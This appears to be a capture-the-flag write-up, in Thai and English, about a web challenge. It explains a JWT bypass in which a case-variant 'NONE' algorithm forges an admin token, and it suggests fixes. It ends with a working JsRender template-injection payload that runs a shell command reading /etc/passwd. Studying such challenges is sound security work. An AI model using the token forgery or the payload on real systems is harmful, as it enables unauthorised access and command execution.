









username admin



register and login to get cookie 





admin should use  id=1


## สรุปช่องโหว่:

### 1. **Case Sensitive Bypass**
```javascript
if (decoded.header.alg == 'none')  // ตรวจแค่ 'none' (lowercase)
// แต่ 'NONE', 'None', 'NoNe' จะผ่านไป else clause
```

### 2. **User-Controlled Algorithm**
```javascript
algorithms: [decoded.header.alg]  // Trust user input!
// Attacker ส่ง 'NONE' มา → algorithms: ['NONE']
```

### 3. **null Secret + none Algorithm = No Verification**
```javascript
jwt.verify(token, null, { algorithms: ['NONE'] })
// jwt library รู้ว่า NONE = none variant
// เลยไม่ throw error และ return payload ให้
```

## Flow การโจมตี:

```
1. Attacker สร้าง JWT: { "alg": "NONE", "typ": "JWT" }
   Payload: { "id": 1, "username": "admin" }
   
2. เข้า AdminMiddleware:
   - decoded.header.alg == 'none' → false (เพราะ 'NONE' ≠ 'none')
   - decoded.header.alg == 'HS256' → false  
   - เข้า else clause ✓
   
3. jwt.verify(token, null, { algorithms: ['NONE'] })
   - Library ตีความ 'NONE' เป็น 'none' algorithm
   - ไม่ verify signature (เพราะ none algorithm)
   - Return payload: { id: 1, username: "admin" } ✓
   
4. Bypass admin check ✓
```

## การแก้ไขที่ถูกต้อง:

```javascript
// ✅ Fix 1: Whitelist algorithms เท่านั้น
const user = jwt.verify(sessionCookie, tokenKey, {
    algorithms: ['HS256']  // ไม่ยอมรับ user input
});

// ✅ Fix 2: Normalize case ก่อนเช็ค
if (decoded.header.alg.toLowerCase() === 'none') {
    return res.redirect("/login");
}

// ✅ Fix 3: ไม่ใช้ null secret เลย
// ถ้าไม่ใช่ HS256 ก็ reject เลย//
```


list all username ดังนั้นจะ server site template injection ผ่าน username parameter





https://appcheck-ng.com/template-injection-jsrender-jsviews/

{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}




